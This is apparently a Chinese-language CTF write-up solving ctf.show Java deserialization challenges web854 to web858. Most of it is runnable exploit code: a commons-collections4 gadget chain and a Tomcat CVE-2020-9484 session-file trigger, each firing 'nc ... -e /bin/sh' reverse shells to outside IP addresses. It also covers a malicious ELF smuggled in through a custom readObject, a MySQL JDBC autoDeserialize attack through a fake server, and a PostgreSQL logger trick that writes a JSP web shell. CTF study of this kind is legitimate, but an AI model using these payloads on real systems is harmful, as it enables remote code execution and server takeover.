- TransformedMap
- PriorityQueue
- InstantiateTransformer
- TransformingComparator
- TemplatesImpl
- AnnotationInvocationHandler
- HashSet
- Hashtable
- LazyMap

没有ban掉DefaultedMap，但是Hashtable给ban了，可以用851中讲到的第二个链子，`通过BadAttributeValueExpException#readObject() 触发 TiedMapEntry#getValue() → 进而触发DefaultedMap#get()方法`

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.DefaultedMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class CC7plus {
    /*
     * BadAttributeValueExpException#readObject() 触发 TiedMapEntry#getValue() → 触发DefaultedMap#get()方法，适用于commons-collections4
     * */
    public static void main(String[] args) throws Exception {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"nc 124.223.25.186 2333 -e /bin/sh"})
        };

        //CC7链的开始
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        DefaultedMap defaultedMap = new DefaultedMap(chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(defaultedMap,"evo1");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("evo");

        Class bc = badAttributeValueExpException.getClass();
        Field val = bc.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);

        serialize(badAttributeValueExpException);

    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

}
```

# web855

## 代码分析

只有一个User类，环境是java8

```java
package com.ctfshow.entity;

import java.io.*;

public class User implements Serializable {
    private static final long serialVersionUID = 0x36d;
    private String username;
    private String password;

    public User(String username, String password) {
        this.username = username;
        this.password = password;
    }

    public String getUsername() {
        return username;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public String getPassword() {
        return password;
    }

    public void setPassword(String password) {
        this.password = password;
    }


    private static final String OBJECTNAME="ctfshow";
    private static final String SECRET="123456";

    private static  String shellCode="chmod +x ./"+OBJECTNAME+" && ./"+OBJECTNAME;
}
```

给了一个OBJECTNAME和SECRET，并且有一段shellCode，估计最后的目标就是需要执行shellCode

然后我们来分析readObject方法

```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        int magic = in.readInt();
        if(magic==2135247942){
            byte var1 = in.readByte();
```

从反序列化流里读 **4 个字节**作为一个自定义的反序列化的标志，并且需要等于2135247942才能进入开始反序列化

随后再读 **1 个字节**，并设立了两个分支，先看case1

```java
case 1:{
    int var2 = in.readInt();
    if(var2==0x36d){

        FileOutputStream fileOutputStream = new FileOutputStream(OBJECTNAME);
        fileOutputStream.write(new byte[]{0x7f,0x45,0x4c,0x46});
        byte[] temp = new byte[1];
        while((in.read(temp))!=-1){
            fileOutputStream.write(temp);
        }

        fileOutputStream.close();
        in.close();

    }
    break;
}
```

执行了写ELF文件的操作，并且会将剩下的反序列化流全部写入该文件中

再看case2

```java
case 2:{

    ObjectInputStream.GetField gf = in.readFields();
    String username = (String) gf.get("username", null);
    String password = (String) gf.get("password",null);
    username = username.replaceAll("[\\p{C}\\p{So}\uFE00-\uFE0F\\x{E0100}-\\x{E01EF}]+", "")
            .replaceAll(" {2,}", " ");
    password = password.replaceAll("[\\p{C}\\p{So}\uFE00-\uFE0F\\x{E0100}-\\x{E01EF}]+", "")
            .replaceAll(" {2,}", " ");
    User var3 = new User(username,password);
    User admin = new User(OBJECTNAME,SECRET);
    if(var3 instanceof  User){
        if(OBJECTNAME.equals(var3.getUsername())){
            throw  new RuntimeException("object unserialize error");
        }
        if(SECRET.equals(var3.getPassword())){
            throw  new RuntimeException("object unserialize error");
        }
        if(var3.equals(admin)){
            Runtime.getRuntime().exec(shellCode);
        }
    }else{
        throw  new RuntimeException("object unserialize error");
    }
    break;
}
```

从反序列化流中取字段值username和password，并且过滤了控制字符、特殊符号、连续空格，随后创建两个User实例对象，一个是var3一个是admin，分别检测var3中是否存在username=ctfshow或者password=123456，存在就抛出报错，但是又要求`var3.equals(admin)`为true才会执行我们的ELF文件

看似这里没法操作，不过这里重写了equals方法，会优先调用User中的equals方法

```java
    @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof User)) return false;
        User user = (User) o;
        return this.hashCode() == user.hashCode();
    }

    @Override
    public int hashCode() {
        return username.hashCode()+password.hashCode();
    }
```

只比较了hashCode而没有比较字符串内容，也就是说只要`username.hashCode()+password.hashCode() == hash("ctfshow")+hash("123456")` 就可以了

结合上面的分析不难得出，我们需要构造两串恶意的序列化字符串，一串中需要包含恶意的可执行二进制文件ELF文件，在进入case1后将ELF文件内容写入，而另一串就需要进入case2触发执行我们的ELF文件，但需要构造一对username和password的hashCode相加后等于`hash("ctfshow")+hash("123456")`

## 解题

先写一个可执行二进制文件

```c
#include<stdlib.h>
int main() {
	system("nc ip port -e /bin/sh"); 
	return 0;
}
```

用`gcc`编译生成可执行文件，因为在case1中会有写入文件头的操作，所以需要删去前4个字节

这里需要注意，Windows 自带的 gcc（如 MinGW）默认编译的是 PE，不是 ELF

```bash
ubuntu@VM-16-12-ubuntu:/tmp$ vim evil.c
ubuntu@VM-16-12-ubuntu:/tmp$ gcc evil.c -o evils
ubuntu@VM-16-12-ubuntu:/tmp$ file evils
evils: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c7ddcb8e8061edae994e9b4eb37f5b12a9446e97, for GNU/Linux 3.2.0, not stripped
ubuntu@VM-16-12-ubuntu:/tmp$ xxd -l 8 evils
00000000: 7f45 4c46 0201 0100                      .ELF....
ubuntu@VM-16-12-ubuntu:/tmp$ dd if=evils of=evil bs=1 skip=4
15956+0 records in
15956+0 records out
15956 bytes (16 kB, 16 KiB) copied, 0.0251976 s, 633 kB/s
ubuntu@VM-16-12-ubuntu:/tmp$ xxd -l 8 evils
00000000: 7f45 4c46 0201 0100                      .ELF....
ubuntu@VM-16-12-ubuntu:/tmp$ xxd -l 8 evil
00000000: 0201 0100 0000 0000                      ........
```

可以看到已经成功删除了

然后我们根据readObject的case1重写一个writeObject

```java
    private void writeObject(ObjectOutputStream outputStream) throws IOException {
        outputStream.writeInt(2135247942);
        outputStream.writeByte(1);
        outputStream.writeInt(0x36d);
        File elffile = new File("E:\\java\\JavaSec\\TestCode\\src\\main\\java\\evils");
        if (!elffile.exists()) {
            throw new FileNotFoundException(elffile.getAbsolutePath());
        }
        BufferedInputStream bufferedInputStream = new BufferedInputStream(new FileInputStream(elffile));
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(1024);
        byte[] temp = new byte[1024];
        int size = 0;
        while((size = bufferedInputStream.read(temp))!=-1){
            byteArrayOutputStream.write(temp,0,size);
        }
        bufferedInputStream.close();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        outputStream.write(bytes);
        outputStream.defaultWriteObject();
    }
```

可以读取文件内容并全部写入序列化流中

然后我们尝试生成一个序列化字符串

```java
    public static void main(String[] args) throws IOException {
        User user = new User("Test","Test");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(user);
        objectOutputStream.flush();
        objectOutputStream.close();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        String payload1 = Base64.getEncoder().encodeToString(bytes);
        System.out.println(payload1);
    }
```

将字符串传进去生成一个二进制文件，然后就到第二个case触发文件执行了

放一个yu22x师傅的哈希碰撞脚本

```python
def hashcode(val):
    h=0
    for i in range(len(val)):
        h=31 * h + ord(val[i])
    return h 
t="ct"
#t="12"
for k in range(1,128):
    for l in range(1,128):
        if t!=(chr(k)+chr(l)):
            if(hashcode(t)==hashcode(chr(k)+chr(l))):
                print(t,chr(k)+chr(l))
```

最后发现可以用`dU`和`0Q`替代`ct`和`12`，那我们重新写一下writeObejct

```java
    private void writeObject(java.io.ObjectOutputStream out) throws IOException {
        out.writeInt(2135247942);
        out.writeByte(2);
        out.defaultWriteObject();
    }
```

然后生成序列化字符串

```java
    public static void main(String[] args) throws IOException {
        User user = new User("dUfshow", "0Q3456");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(user);
        objectOutputStream.flush();
        objectOutputStream.close();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        String payload = Base64.getEncoder().encodeToString(bytes);
        System.out.println(payload);
    }
```

但是一直没弹上去，不知道为啥

# web856

## #JDBC反序列化

使用了以下库

```java
javax.servlet-api 4.0.1
mysql-connector-java 5.1.39
commons-collections 4.0
```

给了个mysql的JDBC依赖，而且版本很低，多半是需要打JDBC反序列化的，可以打detectCustomCollations链

 ```java
 (2) MYSQL5.1.29-5.1.40:
 jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc
 ```

有一个Connection类

```java
package com.ctfshow.entity;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.DriverManager;
import java.sql.SQLException;
import java.util.Objects;

public class Connection implements Serializable {

    private static final long serialVersionUID = 2807147458202078901L;

    private String driver;
    private String schema;
    private String host;
    private int port;
    private User user;
    private String database;

    public String getDriver() {
        return driver;
    }

    public void setDriver(String driver) {
        this.driver = driver;
    }

    public String getSchema() {
        return schema;
    }

    public void setSchema(String schema) {
        this.schema = schema;
    }

    public void setPort(int port) {
        this.port = port;
    }

    public String getHost() {
        return host;
    }

    public void setHost(String host) {
        this.host = host;
    }

    public User getUser() {
        return user;
    }

    public void setUser(User user) {
        this.user = user;
    }

    public String getDatabase() {
        return database;
    }

    public void setDatabase(String database) {
        this.database = database;
    }

    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException, SQLException {

        Class.forName("com.mysql.jdbc.Driver");

        ObjectInputStream.GetField gf = in.readFields();

        String host = (String) gf.get("host", "127.0.0.1");
        int port = (int) gf.get("port", 3306);
        User user = (User) gf.get("user", new User("root", "root"));
        String database = (String) gf.get("database", "ctfshow");
        String schema = (String) gf.get("schema", "jdbc:mysql");

        DriverManager.getConnection(
                schema + "://" + host + ":" + port + "/?" + database + "&user=" + user.getUsername()
        );
    }

    @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof Connection)) return false;
        Connection that = (Connection) o;
        return Objects.equals(host, that.host)
                && Objects.equals(port, that.port)
                && Objects.equals(user, that.user)
                && Objects.equals(database, that.database);
    }

    @Override
    public int hashCode() {
        return Objects.hash(host, port, user, database);
    }
}
```

需要把`MySQL_Fake_Server`部署到自己的`vps`上，配置config

由于环境中有CC4，那就打CC4链

```json
{
    "config":{
        "ysoserialPath":"ysoserial-all.jar",
        "javaBinPath":"java",
        "fileOutputDir":"./fileOutput/",
        "displayFileContentOnScreen":true,
        "saveToFile":true
    },
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "ssrf":"https://www.baidu.com/",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
    },
    "yso":{
        "evil":["CommonsCollections4","nc 156.239.238.130 2333 -e /bin/sh"]
    }
}
```

然后还需要改一下`server.py`中的端口防止和本地的`mysql`端口冲突

然后就是给Connection类实例化和赋值了

```java
package com.ctfshow.entity;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class web856 {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        Connection connection = new Connection();
        Class c = connection.getClass();
        Field schema = c.getDeclaredField("schema");
        schema.setAccessible(true);
        schema.set(connection,"jdbc:mysql");
        Field host = c.getDeclaredField("host");
        host.setAccessible(true);
        host.set(connection,"38.55.99.239");
        Field port = c.getDeclaredField("port");
        port.setAccessible(true);
        port.set(connection,3306);
        Field user = c.getDeclaredField("user");
        user.setAccessible(true);
        // 这里的username就是你在config.json中设置的值
        user.set(connection,new User("evil", "123456"));
        Field database = c.getDeclaredField("database");
        database.setAccessible(true);
        database.set(connection,"detectCustomCollations=true&autoDeserialize=true");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(connection);

        byte[] payloadBytes = byteArrayOutputStream.toByteArray();
        String payload = Base64.getEncoder().encodeToString(payloadBytes);
        System.out.println(payload);
    }
}
```

开启`nc`监听和`MySQL_Fake_Server`，然后传输`payload`就拿到`shell`了



# web857

## #pgsql任意文件写入

- javax.servlet-api 4.0.1
- mysql-connector-java 5.1.39
- postgresql 42.3.1

用到了postgresql ，并且是存在漏洞的版本，可以打任意文件写入

```java
package com.ctfshow.entity;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class web857 {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        Connection connection = new Connection();
        Class c = connection.getClass();
        Field driver = c.getDeclaredField("driver");
        driver.setAccessible(true);
        driver.set(connection, "org.postgresql.Driver");
        Field schema = c.getDeclaredField("schema");
        schema.setAccessible(true);
        schema.set(connection,"jdbc:postgresql");
        Field host = c.getDeclaredField("host");
        host.setAccessible(true);
        host.set(connection,"127.0.0.1");
        Field port = c.getDeclaredField("port");
        port.setAccessible(true);
        port.set(connection,5432);
        Field user = c.getDeclaredField("user");
        user.setAccessible(true);
        // 这里的username就是你在config.json中设置的值
        user.set(connection,new User("evil", "123456"));
        Field database = c.getDeclaredField("database");
        database.setAccessible(true);
        database.set(connection,"&loggerLevel=DEBUG&loggerFile=../webapps/ROOT/a.jsp&<%Runtime.getRuntime().exec(request.getParameter(\"cmd\"));%>");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(connection);

        byte[] payloadBytes = byteArrayOutputStream.toByteArray();
        String payload = Base64.getEncoder().encodeToString(payloadBytes);

        System.out.println(payload);
    }
}
```

输出后传入并访问a.jsp，但是这里的poc是没有回显的，所以需要反弹shell



# web858

## #CVE-2020-9484

题目提示`tomcat的session反序列化`

User类

```java
package com.ctfshow.entity;
 
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
 
public class User implements Serializable {
    private static final long serialVersionUID = -3254536114659397781L;
    private String username;
    private String password;
 
    public String getUsername() {
        return username;
    }
 
    public void setUsername(String username) {
        this.username = username;
    }
 
    public String getPassword() {
        return password;
    }
 
    public void setPassword(String password) {
        this.password = password;
    }
 
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.username);
    }
 
 
}
```

在readObject中有一个执行命令的点，参数是username的值

然后还有一个Context的配置文件

```xml
?
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at
 
      http://www.apache.org/licenses/LICENSE-2.0
 
  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<!-- The contents of this file will be loaded for each web application -->
<Context  allowCasualMultipartParsing="true">
 
    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>
 
    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
 
   <Manager className="org.apache.catalina.session.PersistentManager" sessionAttributeValueClassNameFilter="">
      <Store className="org.apache.catalina.session.FileStore" directory="session"/>
  </Manager>
   
</Context>

```

`allowCasualMultipartParsing="true"`意味着上传文件的时候对于Content-Type的检测会相对放宽，可允许非标准 multipart 请求

而`<WatchedResource>`是一种热加载的机制，Tomcat会检测`WEB-INF/web.xml`和`${catalina.base}/conf/web.xml`内容是否有改变，如果有改变就重加载项目

重点看`Manager`这块

```xml
   <Manager className="org.apache.catalina.session.PersistentManager" sessionAttributeValueClassNameFilter="">
      <Store className="org.apache.catalina.session.FileStore" directory="session"/>
  </Manager>
```

这里开启 Session 持久化，而且在reload重加载后也不会消失

- PersistentManager采用了持久化管理器替代默认的内存 Session 管理器，会将**Session 序列化存储到外部介质**而并非存储到内存中。`sessionAttributeValueClassNameFilter=""` 表示**不过滤**任何 Session 属性的类名，即允许所有类型的对象被序列化存储。
- FileStore指定持久化的具体方式是**写入文件**，`directory="session"` 表示 Session 文件存放在相对于工作目录的 `session` 文件夹下。每个 Session 会被序列化成一个单独的 `.session` 文件，文件名就是 Session ID。

但是需要注意的是，Session 中存储的对象必须实现 `Serializable` 接口，否则序列化会失败。

参考CVE-2020-9484可以知道，我们可以序列化一个User类并写入一个session后缀名的文件中，随后利用该漏洞读取文件内容并触发反序列化

```java
package com.ctfshow.entity;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class web858 {
    public static void main(String[] args) throws Exception {
        User user = new User();
        Class c = user.getClass();
        Field username = c.getDeclaredField("username");
        username.setAccessible(true);
        username.set(user, "nc 156.239.238.130 2333 -e /bin/sh");

        serialize(user);

    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("a.session"));
        oos.writeObject(obj);
    }
}
```

生成文件并上传后返回一个路径

```java
文件已上传至：/usr/local/tomcat/webapps/ROOT/WEB-INF/upload/a.session
```

写个脚本触发一下

```python
import requests

url = "http://c8f9f30d-b2b2-438b-848a-be5f557b4215.challenge.ctf.show/"

Cookies = {
    "JSESSIONID" : "../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/upload/a"
}
response = requests.get(url=url,cookies=Cookies)
print(response.text)
```


